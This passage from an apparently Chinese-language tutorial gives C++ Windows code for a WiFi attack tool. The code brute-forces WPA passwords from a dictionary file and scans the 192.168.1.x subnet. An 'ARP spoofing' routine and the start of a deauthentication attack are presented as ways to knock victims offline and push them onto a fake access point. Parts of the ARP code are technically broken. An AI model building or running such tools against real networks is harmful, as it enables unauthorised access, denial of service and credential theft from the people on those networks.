        PWLAN_INTERFACE_INFO interfaceInfo = &interfaceList->InterfaceInfo[i];
        result = WlanGetAvailableNetworkList(clientHandle, &interfaceInfo->InterfaceGuid, 0, NULL, &networkList);
        if (result != ERROR_SUCCESS) {
            continue;
        }

        for (DWORD j = 0; j < networkList->dwNumberOfItems; j++) {
            PWLAN_AVAILABLE_NETWORK network = &networkList->Network[j];
            WiFiInfo info;

            // SSID
            info.ssid = std::wstring(network->dot11Ssid.ucSSID, network->dot11Ssid.ucSSID + network->dot11Ssid.uSSIDLength);

            // Auth Algorithm
            switch (network->dot11DefaultAuthAlgorithm) {
            case DOT11_AUTH_ALGO_RSNA_PSK:
                info.authAlgo = L"WPA2-PSK";
                break;
            case DOT11_AUTH_ALGO_WPA_PSK:
                info.authAlgo = L"WPA-PSK";
                break;
            case DOT11_AUTH_ALGO_80211_OPEN:
                info.authAlgo = L"开放";
                break;
            default:
                info.authAlgo = L"未知";
                break;
            }

            // BSS Type
            info.bssType = network->dot11BssType == dot11_BSS_type_infrastructure ? L"基础设施" : L"Ad hoc";

            // Signal Quality
            info.signalQuality = network->wlanSignalQuality;

            // Band
            if (network->dot11PhyTypes[0] == dot11_phy_type_vht) {
                info.band = L"5GHz";
            }
            else {
                info.band = L"2.4GHz";
            }

            wifiList.push_back(info);
        }

        WlanFreeMemory(networkList);
    }

    WlanFreeMemory(interfaceList);
    WlanCloseHandle(clientHandle, NULL);
    CoUninitialize();
}

// 检查能否 Ping 通百度
bool CanPingBaidu() {
    std::string pingCmd = "ping www.baidu.com -n 1 > nul 2>&1";
    return system(pingCmd.c_str()) == 0;
}

// 函数：使用 Netsh 尝试连接 WiFi
bool TryConnectToWiFi(const std::wstring& ssid, const std::wstring& password) {
    const std::string configFile = "wifi_profile.xml";

    // 清除旧的 WiFi 配置
    std::string deleteProfileCmd = "netsh wlan delete profile name="" + std::string(ssid.begin(), ssid.end()) + """;
    system(deleteProfileCmd.c_str());

    // 创建 WiFi 配置文件
    std::ofstream file(configFile);
    if (!file) return false;

    file << "<?xml version="1.0"?>
"
        << "<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
"
        << "    <name>" << std::string(ssid.begin(), ssid.end()) << "</name>
"
        << "    <SSIDConfig>
"
        << "        <SSID>
"
        << "            <name>" << std::string(ssid.begin(), ssid.end()) << "</name>
"
        << "        </SSID>
"
        << "    </SSIDConfig>
"
        << "    <connectionType>ESS</connectionType>
"
        << "    <connectionMode>manual</connectionMode>
"
        << "    <MSM>
"
        << "        <security>
"
        << "            <authEncryption>
"
        << "                <authentication>WPA2PSK</authentication>
"
        << "                <encryption>AES</encryption>
"
        << "                <useOneX>false</useOneX>
"
        << "            </authEncryption>
"
        << "            <sharedKey>
"
        << "                <keyType>passPhrase</keyType>
"
        << "                <protected>false</protected>
"
        << "                <keyMaterial>" << std::string(password.begin(), password.end()) << "</keyMaterial>
"
        << "            </sharedKey>
"
        << "        </security>
"
        << "    </MSM>
"
        << "</WLANProfile>
";
    file.close();

    // 添加 WiFi 配置
    std::string addProfileCmd = "netsh wlan add profile filename="" + configFile + """;
    if (system(addProfileCmd.c_str()) != 0) {
        return false;
    }

    // 尝试连接
    std::string connectCmd = "netsh wlan connect name="" + std::string(ssid.begin(), ssid.end()) + """;
    if (system(connectCmd.c_str()) == 0) {
        std::this_thread::sleep_for(std::chrono::seconds(2));
        return CanPingBaidu();
    }

    return false;
}

// 函数：从字典中尝试密码
std::wstring BruteForceWiFi(HWND hwnd, const std::wstring& ssid, const std::wstring& dictionaryFile) {
    std::wifstream dictionary(dictionaryFile);
    if (!dictionary) {
        MessageBox(hwnd, L"无法打开密码字典文件！", L"错误", MB_OK | MB_ICONERROR);
        return L"";
    }

    // 统计字典中的总密码数
    size_t totalAttempts = 0;
    std::wstring password;
    while (std::getline(dictionary, password)) {
        if (!password.empty()) totalAttempts++;
    }
    dictionary.clear();
    dictionary.seekg(0, std::ios::beg);

    // 初始化进度条
    HWND progressBar = GetDlgItem(hwnd, 2000);
    SendMessage(progressBar, PBM_SETRANGE, 0, MAKELPARAM(0, totalAttempts));

    size_t currentAttempt = 0;

    while (std::getline(dictionary, password) && !stopBruteForce) {
        if (password.empty()) continue;

        // 尝试连接
        if (TryConnectToWiFi(ssid, password)) {
            dictionary.close();
            return password; // 返回正确密码
        }

        // 更新进度条
        currentAttempt++;
        SendMessage(progressBar, PBM_SETPOS, currentAttempt, 0);
    }

    dictionary.close();
    return L""; // 未找到正确密码
}

// WiFi详情窗口过程
LRESULT CALLBACK DetailWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    static WiFiInfo* wifi = nullptr;

    switch (uMsg) {
    case WM_CREATE: {
        CREATESTRUCT* cs = (CREATESTRUCT*)lParam;
        wifi = (WiFiInfo*)cs->lpCreateParams;

        std::wstringstream details;
        details << L"SSID: " << wifi->ssid << L"
"
            << L"认证算法: " << wifi->authAlgo << L"
"
            << L"BSS类型: " << wifi->bssType << L"
"
            << L"信号强度: " << wifi->signalQuality << L"%
"
            << L"频段: " << wifi->band;

        CreateWindow(L"STATIC", details.str().c_str(),
            WS_VISIBLE | WS_CHILD, 10, 10, 350, 100,
            hwnd, NULL, NULL, NULL);

        CreateWindow(PROGRESS_CLASS, NULL,
            WS_VISIBLE | WS_CHILD, 10, 120, 350, 20,
            hwnd, (HMENU)2000, NULL, NULL);

        CreateWindow(L"BUTTON", L"开始爆破",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 10, 150, 100, 30,
            hwnd, (HMENU)3000, NULL, NULL);

        CreateWindow(L"BUTTON", L"停止爆破",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 120, 150, 100, 30,
            hwnd, (HMENU)3001, NULL, NULL);
    } break;

    case WM_COMMAND: {
        switch (LOWORD(wParam)) {
        case 3000: // 开始爆破
            std::thread([](HWND hwnd, WiFiInfo wifi) {
                auto password = BruteForceWiFi(hwnd, wifi.ssid, L"passwords.txt");
                if (!password.empty()) {
                    MessageBox(hwnd, (L"密码爆破成功，密码为：" + password).c_str(), L"成功", MB_OK | MB_ICONINFORMATION);
                }
                else {
                    MessageBox(hwnd, L"密码爆破失败！未找到正确密码。", L"失败", MB_OK | MB_ICONERROR);
                }
                }, hwnd, *wifi).detach();
                break;

        case 3001: // 停止爆破
            stopBruteForce = true;
            break;
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}

// 显示WiFi详情窗口
void ShowWiFiDetailWindow(HINSTANCE hInstance, WiFiInfo& wifi) {
    const wchar_t DETAIL_CLASS[] = L"WiFiDetailWindow";

    WNDCLASS wc = {};
    wc.lpfnWndProc = DetailWindowProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = DETAIL_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(DETAIL_CLASS, L"WiFi 详情",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 250,
        NULL, NULL, hInstance, &wifi);

    ShowWindow(hwnd, SW_SHOW);
}

// 主窗口过程
LRESULT CALLBACK MainWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    switch (uMsg) {
    case WM_CREATE: {
        for (size_t i = 0; i < wifiList.size(); i++) {
            CreateWindow(L"BUTTON", wifiList[i].ssid.c_str(),
                WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON,
                10, 30 + static_cast<int>(i) * 40, 350, 30,
                hwnd, reinterpret_cast<HMENU>(1000 + i), NULL, NULL);
        }
    } break;

    case WM_COMMAND: {
        int buttonId = LOWORD(wParam);
        if (buttonId >= 1000 && buttonId < 1000 + wifiList.size()) {
            ShowWiFiDetailWindow((HINSTANCE)GetWindowLongPtr(hwnd, GWLP_HINSTANCE), wifiList[buttonId - 1000]);
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}

// 主函数
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    FetchWiFiNetworks();

    const wchar_t MAIN_CLASS[] = L"WiFiMainWindow";

    WNDCLASS wc = {};
    wc.lpfnWndProc = MainWindowProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = MAIN_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(MAIN_CLASS, L"WiFi 网络",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 600,
        NULL, NULL, hInstance, NULL);

    if (hwnd == NULL) {
        return 0;
    }

    ShowWindow(hwnd, nCmdShow);

    MSG msg = {};
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    return 0;
}

```

注意，环境自己看着设置一下，有问题的帖下留言

运行效果

# T3·获取内网信息（本人极其不推荐加这个，后续代码也不会加，可以考虑使用NMAP这种成熟工具）

### \*\*新建头文件 \*\*`**NetworkScanner.h**`

```
#pragma once
#ifndef NETWORKSCANNER_H
#define NETWORKSCANNER_H

#include <iostream>
#include <vector>
#include <string>
#include <thread>
#include <mutex>
#include <sstream>
#include <windows.h>
#include <future>
#include <atomic>
#include <CommCtrl.h>

#pragma comment(lib, "Comctl32.lib")

std::mutex mtx; // 用于保护共享资源
std::atomic<int> completedTasks{ 0 }; // 已完成任务计数

// 单个 IP 扫描函数（隐藏 cmd 窗口）
bool IsHostActive(const std::string& ip) {
    std::string command = "ping " + ip + " -n 1 -w 100 > nul";
    return (system(command.c_str()) == 0);
}

// 多线程扫描内网主机
std::vector<std::string> ScanLocalNetworkMultithreaded(HWND progressBar) {
    std::vector<std::string> activeIPs;
    std::vector<std::future<void>> futures;
    std::string baseIP = "192.168.1.";

    // 设置进度条范围
    SendMessage(progressBar, PBM_SETRANGE, 0, MAKELPARAM(0, 254));

    for (int i = 1; i <= 254; i++) {
        std::string ip = baseIP + std::to_string(i);

        // 使用异步任务进行扫描
        futures.push_back(std::async(std::launch::async, [ip, &activeIPs, progressBar]() {
            if (IsHostActive(ip)) {
                std::lock_guard<std::mutex> lock(mtx);
                activeIPs.push_back(ip);
            }

            // 更新进度条
            completedTasks++;
            SendMessage(progressBar, PBM_SETPOS, completedTasks, 0);
            }));
    }

    // 等待所有线程完成
    for (auto& future : futures) {
        future.get();
    }

    return activeIPs;
}

// 展示内网主机信息
void DisplayNetworkInfo(HWND hwnd) {
    // 创建窗口用于显示进度条
    HWND progressBar = CreateWindowEx(0, PROGRESS_CLASS, NULL,
        WS_CHILD | WS_VISIBLE, 10, 10, 300, 30,
        hwnd, NULL, NULL, NULL);

    // 扫描主机
    std::vector<std::string> activeIPs = ScanLocalNetworkMultithreaded(progressBar);

    // 移除进度条
    DestroyWindow(progressBar);

    if (activeIPs.empty()) {
        MessageBox(hwnd, L"未发现任何内网主机。", L"扫描结果", MB_OK | MB_ICONINFORMATION);
        return;
    }

    std::wstringstream result;
    result << L"内网主机数量：" << activeIPs.size() << L"

";
    for (const auto& ip : activeIPs) {
        result << L"IP: " << std::wstring(ip.begin(), ip.end()) << L"
";
    }

    MessageBox(hwnd, result.str().c_str(), L"扫描结果", MB_OK | MB_ICONINFORMATION);
}

#endif // NETWORKSCANNER_H

```

### **头文件详解**

以下是 `NetworkScanner.h` 头文件的详细说明，包括其作用和每部分代码的功能。

### **头文件整体功能**

该头文件的主要功能是**扫描内网主机**，并以弹窗形式显示：

1. **内网主机的数量**。
2. **每台主机的 IP 地址**。
3. **显示实时进度条，反馈扫描进度**。
4. **使用多线程进行扫描，加速检测过程**。

### **代码结构和功能**

```
#pragma once
#ifndef NETWORKSCANNER_H
#define NETWORKSCANNER_H
```

* `**#pragma once**`\*\* 和 include guards\*\*：

* 防止头文件被重复包含，确保代码的唯一性。

```
#include <iostream>
#include <vector>
#include <string>
#include <thread>
#include <mutex>
#include <sstream>
#include <windows.h>
#include <future>
#include <atomic>
#include <CommCtrl.h>
#pragma comment(lib, "Comctl32.lib")
```

* **包含的头文件和库**：

* `**<iostream>**`：标准输入输出，用于调试输出。
* `**<vector>**`：用于存储所有主机的 IP 地址。
* `**<string>**`：处理字符串。
* `**<thread>**` 和 `**<future>**`：实现多线程异步任务。
* `**<mutex>**`：保护共享资源（如主机列表）避免多线程冲突。
* `**<windows.h>**`：Windows API 核心头文件，管理窗口和系统操作。
* `**<CommCtrl.h>**`：提供 Windows 通用控件，如进度条。
* `**<atomic>**`：处理线程安全的计数器。
* `**Comctl32.lib**`：链接动态库以支持进度条控件。

### **多线程扫描内网主机**

#### **单个主机扫描函数**

```
bool IsHostActive(const std::string& ip) {
    std::string command = "ping " + ip + " -n 1 -w 100 > nul";
    return (system(command.c_str()) == 0);
}
```

* **功能**：通过 `ping` 命令检查指定的 IP 地址是否在线。

* `**ping + IP**`：检查是否可以与 IP 通信。
* `**-n 1**`：只发送一个数据包，减少等待时间。
* `**-w 100**`：超时时间设为 100 毫秒。
* `**> nul**`：屏蔽 `cmd` 窗口输出。

* **返回值**：

* `true`：主机在线。
* `false`：主机不在线。

#### **多线程扫描函数**

```
std::vector<std::string> ScanLocalNetworkMultithreaded(HWND progressBar) {
    std::vector<std::string> activeIPs;
    std::vector<std::future<void>> futures;
    std::string baseIP = "192.168.1.";

    // 设置进度条范围
    SendMessage(progressBar, PBM_SETRANGE, 0, MAKELPARAM(0, 254));

    for (int i = 1; i <= 254; i++) {
        std::string ip = baseIP + std::to_string(i);

        // 使用异步任务进行扫描
        futures.push_back(std::async(std::launch::async, [ip, &activeIPs, progressBar]() {
            if (IsHostActive(ip)) {
                std::lock_guard<std::mutex> lock(mtx);
                activeIPs.push_back(ip);
            }

            // 更新进度条
            completedTasks++;
            SendMessage(progressBar, PBM_SETPOS, completedTasks, 0);
        }));
    }

    // 等待所有线程完成
    for (auto& future : futures) {
        future.get();
    }

    return activeIPs;
}
```

* **功能**：扫描内网 `192.168.1.1 - 192.168.1.254` 中的所有主机，使用多线程加速。

* **线程控制**：通过 `std::async` 启动异步任务，每个线程处理一个 IP。
* **进度条更新**：通过 `SendMessage` 更新进度条控件。
* **保护共享资源**：

* 使用 `std::mutex` 确保 `activeIPs`（在线主机列表）在多线程访问时的安全性。

* **结果返回**：返回所有在线主机的 IP 地址列表。

### **展示主机信息和进度条窗口**

#### **主机信息展示**

```
void DisplayNetworkInfo(HWND hwnd) {
    HWND progressBar = CreateWindowEx(0, PROGRESS_CLASS, NULL,
        WS_CHILD | WS_VISIBLE, 10, 10, 300, 30,
        hwnd, NULL, NULL, NULL);

    // 扫描主机
    std::vector<std::string> activeIPs = ScanLocalNetworkMultithreaded(progressBar);

    // 移除进度条
    DestroyWindow(progressBar);

    if (activeIPs.empty()) {
        MessageBox(hwnd, L"未发现任何内网主机。", L"扫描结果", MB_OK | MB_ICONINFORMATION);
        return;
    }

    std::wstringstream result;
    result << L"内网主机数量：" << activeIPs.size() << L"

";
    for (const auto& ip : activeIPs) {
        result << L"IP: " << std::wstring(ip.begin(), ip.end()) << L"
";
    }

    MessageBox(hwnd, result.str().c_str(), L"扫描结果", MB_OK | MB_ICONINFORMATION);
}
```

* **功能**：展示扫描结果（主机数量和 IP 地址）。

* 创建进度条窗口，显示扫描任务的完成状态。
* 调用 `ScanLocalNetworkMultithreaded` 执行多线程扫描。
* 当扫描完成后，关闭进度条窗口。
* 使用 `MessageBox` 显示最终扫描结果，包括：

* 内网主机总数量。
* 每个主机的 IP 地址。

### **头文件的关键点**

1. **进度条控件**：

* 使用 `CreateWindowEx` 创建 Windows 自带的进度条控件。
* 通过 `SendMessage` 更新进度条位置。

1. **多线程优化**：

* 利用 `std::async` 创建线程，分发任务，提升扫描速度。
* 使用 `std::mutex` 确保线程安全。

1. **结果输出**：

* 简单明了，显示主机总数量和 IP。

1. **隐藏 cmd 窗口**：

* 通过 `> nul` 屏蔽所有命令行输出，避免干扰。

### **头文件使用方式**

1. **引入头文件**：

```
#include "NetworkScanner.h"
```

1. **调用展示函数**：

```
DisplayNetworkInfo(hwnd);
```

`hwnd` 是当前窗口的句柄，用于创建进度条控件和弹窗。

### **运行效果**

#### **1. 进度条窗口**

在扫描过程中显示进度：

```
[===============>                 ] 完成任务：127/254
```

#### **2. 扫描结果**

弹窗显示内网主机信息：

```
内网主机数量：3

IP: 192.168.1.1
IP: 192.168.1.100
IP: 192.168.1.150
```

# T4·对原WIFI断网攻击，迫使对方连接下一步的伪造WIFI

## 方法一：ARP

### **头文件1：**`**NetworkAttack.h**`

这个采用ARP针对个体，在此附上，后文不使用这种方法

```
#pragma once
#ifndef NETWORKATTACK_H
#define NETWORKATTACK_H

#include <iostream>
#include <windows.h>
#include <thread>
#include <string>
#include <chrono>
#include <fstream>
#include <winsock2.h>
#include <iphlpapi.h>
#include <netinet/in.h>
#include <netinet/ether.h>

#pragma comment(lib, "Iphlpapi.lib")
#pragma comment(lib, "ws2_32.lib")

// 执行 ARP 欺骗攻击
void ExecuteARPAttack(const std::wstring& ssid, int duration, HWND hwndButton, HWND hwndCountdown) {
    // 伪造 ARP 欺骗命令，使 WiFi 无法连接
    // 假设目标WiFi路由器的IP和MAC地址，我们需要替换这些为真实值
    std::string targetIP = "192.168.1.100"; // 目标设备的 IP 地址（需要替换为真实IP）
    std::string gatewayIP = "192.168.1.1";  // 网关（路由器）的 IP 地址
    std::string targetMAC = "00:11:22:33:44:55"; // 目标设备的 MAC 地址（需要替换为真实MAC）
    std::string gatewayMAC = "66:77:88:99:AA:BB"; // 网关的 MAC 地址（需要替换为真实MAC）

    // 持续发送伪造的 ARP 响应包
    for (int i = 0; i < duration; i++) {
        // 伪造 ARP 响应包
        std::string attackCommandTarget = "arp -s " + targetIP + " " + gatewayMAC;
        std::string attackCommandGateway = "arp -s " + gatewayIP + " " + targetMAC;

        system(attackCommandTarget.c_str()); // 向目标设备发送伪造的 ARP 包
        system(attackCommandGateway.c_str()); // 向网关发送伪造的 ARP 包

        // 更新倒计时显示
        std::wstring countdownText = L"攻击中，剩余时间：" + std::to_wstring(duration - i) + L" 秒";
        SetWindowText(hwndCountdown, countdownText.c_str());
        std::this_thread::sleep_for(std::chrono::seconds(1));
    }

    // 恢复 ARP 设置
    system("arp -d " + targetIP);  // 删除目标设备的伪造 ARP 缓存
    system("arp -d " + gatewayIP);  // 删除网关的伪造 ARP 缓存

    // 恢复按钮状态和倒计时显示
    SetWindowText(hwndCountdown, L"断网操作完成，可以重新操作。");
    EnableWindow(hwndButton, TRUE);  // 使按钮重新可用
}

// 断网输入窗口过程
LRESULT CALLBACK InputWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    static HWND inputField, countdownLabel, actionButton;
    static std::wstring ssid;

    switch (uMsg) {
    case WM_CREATE: {
        ssid = *(std::wstring*)(((CREATESTRUCT*)lParam)->lpCreateParams);

        // 输入提示
        CreateWindow(L"STATIC", L"输入断网时间 (秒)：",
            WS_VISIBLE | WS_CHILD, 10, 10, 200, 20,
            hwnd, NULL, NULL, NULL);

        // 输入框
        inputField = CreateWindow(L"EDIT", L"",
            WS_VISIBLE | WS_CHILD | WS_BORDER, 10, 40, 100, 20,
            hwnd, NULL, NULL, NULL);

        // 倒计时显示
        countdownLabel = CreateWindow(L"STATIC", L"",
            WS_VISIBLE | WS_CHILD, 10, 70, 300, 20,
            hwnd, NULL, NULL, NULL);

        // 操作按钮
        actionButton = CreateWindow(L"BUTTON", L"确认",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 10, 100, 80, 30,
            hwnd, (HMENU)1, NULL, NULL);

        CreateWindow(L"BUTTON", L"取消",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 100, 100, 80, 30,
            hwnd, (HMENU)2, NULL, NULL);
    } break;

    case WM_COMMAND: {
        if (LOWORD(wParam) == 1) { // 确认按钮
            wchar_t buffer[10];
            GetWindowText(inputField, buffer, 10);

            int duration = _wtoi(buffer); // 转换输入为整数
            if (duration > 0) {
                EnableWindow(actionButton, FALSE); // 禁用按钮
                std::thread(ExecuteARPAttack, ssid, duration, actionButton, countdownLabel).detach();
            }
            else {
                MessageBox(hwnd, L"请输入有效的断网时间！", L"错误", MB_OK | MB_ICONERROR);
            }
        }
        else if (LOWORD(wParam) == 2) { // 取消按钮
            DestroyWindow(hwnd);
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}

// 弹出断网输入窗口
void ShowDisconnectPrompt(const std::wstring& ssid) {
    const wchar_t INPUT_CLASS[] = L"NetworkAttackInput";

    WNDCLASS wc = {};
    wc.lpfnWndProc = InputWindowProc;
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpszClassName = INPUT_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(INPUT_CLASS, L"断网操作",
        WS_OVERLAPPEDWINDOW & ~WS_THICKFRAME & ~WS_MAXIMIZEBOX,
        CW_USEDEFAULT, CW_USEDEFAULT, 320, 200,
        NULL, NULL, wc.hInstance, (LPVOID)&ssid);

    ShowWindow(hwnd, SW_SHOW);

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
}

#endif // NETWORKATTACK_H

```

### **主程序修改部分**

在 WiFi 密码破解成功后调用 `ShowDisconnectPrompt` 函数，并传递 WiFi 的 SSID。

#### **修改部分代码**

```
#include "NetworkAttack.h"

// WiFi详情窗口过程
LRESULT CALLBACK DetailWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    static WiFiInfo* wifi = nullptr;

    switch (uMsg) {
    case WM_CREATE: {
        CREATESTRUCT* cs = (CREATESTRUCT*)lParam;
        wifi = (WiFiInfo*)cs->lpCreateParams;

        std::wstringstream details;
        details << L"SSID: " << wifi->ssid << L"
"
                << L"认证算法: " << wifi->authAlgo << L"
"
                << L"BSS类型: " << wifi->bssType << L"
"
                << L"信号强度: " << wifi->signalQuality << L"%
"
                << L"频段: " << wifi->band;

        CreateWindow(L"STATIC", details.str().c_str(),
                     WS_VISIBLE | WS_CHILD, 10, 10, 350, 100,
                     hwnd, NULL, NULL, NULL);

        CreateWindow(PROGRESS_CLASS, NULL,
                     WS_VISIBLE | WS_CHILD, 10, 120, 350, 20,
                     hwnd, (HMENU)2000, NULL, NULL);

        CreateWindow(L"BUTTON", L"开始爆破",
                     WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 10, 150, 100, 30,
                     hwnd, (HMENU)3000, NULL, NULL);

        CreateWindow(L"BUTTON", L"停止爆破",
                     WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 120, 150, 100, 30,
                     hwnd, (HMENU)3001, NULL, NULL);
    } break;

    case WM_COMMAND: {
        switch (LOWORD(wParam)) {
        case 3000: // 开始爆破
            std::thread([](HWND hwnd, WiFiInfo wifi) {
                auto password = BruteForceWiFi(hwnd, wifi.ssid, L"passwords.txt");
                if (!password.empty()) {
                    MessageBox(hwnd, (L"密码爆破成功，密码为：" + password).c_str(), L"成功", MB_OK | MB_ICONINFORMATION);
                    // 弹出断网窗口
                    ShowDisconnectPrompt(wifi.ssid);
                } else {
                    MessageBox(hwnd, L"密码爆破失败！未找到正确密码。", L"失败", MB_OK | MB_ICONERROR);
                }
            }, hwnd, *wifi).detach();
            break;

        case 3001: // 停止爆破
            stopBruteForce = true;
            break;
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}
```

——————————————————————————————————————————————

——————————————————————————————————————————————

## 方法二：Jamming去认证帧攻击断整个WIFI

### 1.先获取攻击WIFI的mac码

```
#include <windows.h>
#include <wlanapi.h>
#include <CommCtrl.h>
#include <objbase.h>
#include <string>
#include <vector>
#include <sstream>
#include <thread>
#include <fstream>
#include <atomic>
#include <locale>
#include <codecvt>
#include <chrono>
#include <iostream>

#pragma comment(lib, "Wlanapi.lib")
#pragma comment(lib, "Ole32.lib")
#pragma comment(lib, "Comctl32.lib")

struct WiFiInfo {
    std::wstring ssid;      // WiFi名称
    std::wstring authAlgo;  // 认证算法
    std::wstring bssType;   // BSS类型
    int signalQuality;      // 信号质量
    std::wstring band;      // 频段
};

std::vector<WiFiInfo> wifiList;  // WiFi列表
std::atomic<bool> stopBruteForce = false;  // 停止爆破的标志

// 获取WiFi网络信息
void FetchWiFiNetworks() {
    HANDLE clientHandle = NULL;
    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_AVAILABLE_NETWORK_LIST networkList = NULL;

    CoInitialize(NULL);
    DWORD result = WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法打开WLAN句柄。", L"错误", MB_OK | MB_ICONERROR);
        CoUninitialize();
        return;
    }

    result = WlanEnumInterfaces(clientHandle, NULL, &interfaceList);
    if (result != ERROR_SUCCESS) {
        MessageBox(NULL, L"无法枚举WLAN接口。", L"错误", MB_OK | MB_ICONERROR);
        WlanCloseHandle(clientHandle, NULL);
        CoUninitialize();
        return;
    }

    for (DWORD i = 0; i < interfaceList->dwNumberOfItems; i++) {
        PWLAN_INTERFACE_INFO interfaceInfo = &interfaceList->InterfaceInfo[i];
        result = WlanGetAvailableNetworkList(clientHandle, &interfaceInfo->InterfaceGuid, 0, NULL, &networkList);
        if (result != ERROR_SUCCESS) {
            continue;
        }

        for (DWORD j = 0; j < networkList->dwNumberOfItems; j++) {
            PWLAN_AVAILABLE_NETWORK network = &networkList->Network[j];
            WiFiInfo info;

            // SSID
            info.ssid = std::wstring(network->dot11Ssid.ucSSID, network->dot11Ssid.ucSSID + network->dot11Ssid.uSSIDLength);

            // Auth Algorithm
            switch (network->dot11DefaultAuthAlgorithm) {
            case DOT11_AUTH_ALGO_RSNA_PSK:
                info.authAlgo = L"WPA2-PSK";
                break;
            case DOT11_AUTH_ALGO_WPA_PSK:
                info.authAlgo = L"WPA-PSK";
                break;
            case DOT11_AUTH_ALGO_80211_OPEN:
                info.authAlgo = L"开放";
                break;
            default:
                info.authAlgo = L"未知";
                break;
            }

            // BSS Type
            info.bssType = network->dot11BssType == dot11_BSS_type_infrastructure ? L"基础设施" : L"Ad hoc";

            // Signal Quality
            info.signalQuality = network->wlanSignalQuality;

            // Band
            if (network->dot11PhyTypes[0] == dot11_phy_type_vht) {
                info.band = L"5GHz";
            }
            else {
                info.band = L"2.4GHz";
            }

            wifiList.push_back(info);
        }

        WlanFreeMemory(networkList);
    }

    WlanFreeMemory(interfaceList);
    WlanCloseHandle(clientHandle, NULL);
    CoUninitialize();
}

// 检查能否 Ping 通百度
bool CanPingBaidu() {
    std::string pingCmd = "ping www.baidu.com -n 1 > nul 2>&1";
    return system(pingCmd.c_str()) == 0;
}
std::wstring GetConnectedWiFiMacAddress() {
    HANDLE clientHandle = NULL;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_CONNECTION_ATTRIBUTES connectionAttributes = NULL;

    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    DWORD dataSize = 0;
    std::wstring macAddress = L"未知";

    CoInitialize(NULL);
    if (WlanOpenHandle(version, NULL, &negotiatedVersion, &clientHandle) == ERROR_SUCCESS) {
        if (WlanEnumInterfaces(clientHandle, NULL, &interfaceList) == ERROR_SUCCESS) {
            for (DWORD i = 0; i < interfaceList->dwNumberOfItems; ++i) {
                if (WlanQueryInterface(
                    clientHandle,
                    &interfaceList->InterfaceInfo[i].InterfaceGuid,
                    wlan_intf_opcode_current_connection,
                    NULL,
                    &dataSize,
                    (PVOID*)&connectionAttributes,
                    NULL
                ) == ERROR_SUCCESS) {
                    if (connectionAttributes->isState == wlan_interface_state_connected) {
                        macAddress = L"";
                        for (int j = 0; j < 6; ++j) {
                            wchar_t buffer[3];
                            swprintf(buffer, 3, L"%02X", connectionAttributes->wlanAssociationAttributes.dot11Bssid[j]);
                            macAddress += buffer;
                            if (j < 5) {
                                macAddress += L":";
                            }
                        }
                        break;
                    }
                }
                if (connectionAttributes) {
                    WlanFreeMemory(connectionAttributes);
                    connectionAttributes = NULL;
                }
            }
        }
    }

    if (interfaceList) WlanFreeMemory(interfaceList);
    if (clientHandle) WlanCloseHandle(clientHandle, NULL);
    CoUninitialize();
    return macAddress;
}
void ShowAttackPrompt(const std::wstring& macAddress) {
    const wchar_t PROMPT_CLASS[] = L"AttackPromptWindow";

    WNDCLASS wc = {};
    wc.lpfnWndProc = [](HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam) -> LRESULT {
        static std::wstring* macAddress = nullptr;

        switch (msg) {
        case WM_CREATE: {
            macAddress = (std::wstring*)((LPCREATESTRUCT)lParam)->lpCreateParams;

            CreateWindow(L"STATIC", L"当前连接的WiFi MAC地址：",
                WS_VISIBLE | WS_CHILD, 10, 10, 300, 20, hwnd, NULL, NULL, NULL);

            HWND edit = CreateWindow(L"EDIT", macAddress->c_str(),
                WS_VISIBLE | WS_CHILD | ES_READONLY | WS_BORDER, 10, 40, 300, 20, hwnd, NULL, NULL, NULL);

            CreateWindow(L"BUTTON", L"复制MAC地址",
                WS_VISIBLE | WS_CHILD, 10, 70, 100, 30, hwnd, (HMENU)1, NULL, NULL);

            CreateWindow(L"BUTTON", L"攻击WiFi",
                WS_VISIBLE | WS_CHILD, 120, 70, 100, 30, hwnd, (HMENU)2, NULL, NULL);

